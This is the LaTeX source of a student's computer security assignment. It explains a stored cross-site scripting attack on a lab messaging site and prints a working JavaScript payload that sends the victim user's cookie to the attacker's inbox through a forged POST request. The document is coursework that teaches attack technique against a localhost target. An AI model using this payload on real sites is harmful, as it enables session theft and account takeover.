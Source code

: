 \documentclass[a4paper]{article}
\author{Nikolaj Dybdahl Rathcke (rfq695)}
\title{Proactive Computer Security \\ Assignment 1}
\begin{document}
\maketitle

\section{Part 1}
\subsection{Attack A}
We want to steal the cookie of the user "rloewe". We will use a javascript injection that creates a POST-request  which sends his cookie back to us, in a message we suspect he will open. The message we send him looks like this: \\
\begin{lstlisting}
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://localhost/messages.php", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("user=you&headline=cookiesteal&message="+document.cookie+"&message_submit=Send");
</script>
\end{lstlisting}
What it does is that when the user clicks on the headline (named cookiesteal in the request, which it probably shouldn't be) it loads the message, which is snippet of javascript code.
This code forges the POST-request which sends a message to the user "you", with message \texttt{document.cookie}. The cookie is rloewe's own as it is him who is logged in and therefore it looks like he sends it. We know what the request looks like simply by inspecting a "test" request.
\end{document}
